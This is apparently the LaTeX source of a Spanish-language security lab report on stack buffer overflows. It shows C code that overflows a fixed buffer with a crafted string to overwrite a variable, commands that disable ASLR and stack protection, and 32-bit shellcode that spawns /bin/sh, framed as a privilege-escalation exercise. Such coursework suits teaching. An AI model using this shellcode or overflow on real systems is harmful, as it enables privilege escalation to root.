 \documentclass[]{article}
\begin{document}
\newpage

La solución que proponemos nosotros es la siguiente:


\begin{lstlisting}
#include <string.h>
#include <stdio.h>

void foo (char *bar)
{
	char  c[28];		   
	float myVar = 10.5;  
	
	printf("myVar value = %f\n", myVar);
	
	memcpy(c, bar, strlen(bar)); 
	
	printf("myVar value = %f\n", myVar);
}

int main (int argc, char **argv)
{
	foo("my string is too long !!!!!!\x01\x01\x20\x40");
	return 0;
}
\end{lstlisting}

Que, aunque no deja el valor 2.5 exacto, deja como valor 2.5000613. 

La siguiente prueba efectivamente da el valor esperado:

\begin{verbatim}
	$ sudo sysctl -w kernel.randomize_va_space=0
	$ gcc -o example -fno-stack-protector bo1.c
	$ ./example
	myVar value = 10.500000
	myVar value = 2.500061
\end{verbatim}

\section{Ejercicio 2 - Ejecutando un shell mediante Buffer Overflow}

En este ejercicio vamos a dejar una aplicación vulnerable a buffer overflow correr con eid=0 y vamos a compilar una aplicación que inserte un shell
en el buffer overflow para ejecutar un shell como eid=0. Un ataque real (si no fuese ya por las medidas de protección contra buffer overflow) un atacante
que ya ha ganado ejecución arbitraria usaría este ataque para escalar privilegios, y continuar con el ataque desde root.



\begin{minipage}{\linewidth}
Primero, construimos un shell en ensamblador embebido en C:
\begin{lstlisting}
/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char code[] =
	"\x31\xc0" /* Line 1: xorl %eax,%eax */
	"\x50" /* Line 2: pushl %eax */
	"\x68""//sh" /* Line 3: pushl $0x68732f2f */
	"\x68""/bin" /* Line 4: pushl $0x6e69622f */
	"\x89\xe3" /* Line 5: movl %esp,%ebx */
	"\x50" /* Line 6: pushl %eax */
	"\x53" /* Line 7: pushl %ebx */
	"\x89\xe1" /* Line 8: movl %esp,%ecx */
	"\x99" /* Line 9: cdq */
	"\xb0\x0b" /* Line 10: movb $0x0b,%al */
	"\xcd\x80" /* Line 11: int $0x80 */
	;
	
int main(int argc, char **argv)
{
	char buf[sizeof(code)];
	strcpy(buf, code);
	((void(*)( ))buf)( );
}
\end{lstlisting}
\end{minipage}
 
\end{document}
